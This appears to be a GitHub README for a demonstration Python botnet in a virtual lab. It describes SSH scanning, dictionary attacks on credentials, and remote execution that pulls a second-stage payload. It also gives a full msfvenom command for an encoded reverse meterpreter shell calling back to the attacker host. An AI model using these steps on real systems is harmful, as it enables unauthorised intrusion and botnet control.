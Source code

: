 # freshbot
Demonstration of a simple botnet written in Python.<br>
<br>
"scan_drop.py" scans virtual network, if it finds a node with ssh<br>
running on it performs a dictionary attack. If the credentials are correctly<br>
provided, RCE directs target to download 2nd payload & execute.<br>
2nd stage payload is a reverse meterpreter shell to C&C.
<br>
<h3>Environment & Setup</h3>
1. Our Attack machine: <h4>Linux kali 4.16.0-kali2-amd64</h4>
2. Create Web Server: <h4>192.168.203.1/evil_file</h4>
3. 4 target ssh servers on the same virtual network: <h4>ubuntu-16.04.5-desktop-amd64</h4>
&nbsp;&nbsp;&nbsp;192.168.203.150&nbsp;&nbsp;&nbsp;user: fresh1 pass: fresh1<br>
&nbsp;&nbsp;&nbsp;192.168.203.151&nbsp;&nbsp;&nbsp;user: fresh2 pass: fresh2<br>
&nbsp;&nbsp;&nbsp;192.168.203.152&nbsp;&nbsp;&nbsp;user: fresh3 pass: fresh3<br>
&nbsp;&nbsp;&nbsp;192.168.203.153&nbsp;&nbsp;&nbsp;user: fresh4 pass: fresh4<br>
<br>
4. Create payload: <h4>msfvenom --payload linux/x86/meterpreter_reverse_tcp LPORT=443 LHOST=192.168.203.1 -e shikata_ga_nai -f elf -a x86 -o evil_file</h4>
5. msf5 > <h4>exploit/multi/handler module</h4>
6. scan_drop.py <h4>Scan, Dictionary Attack, RCE.</h4>
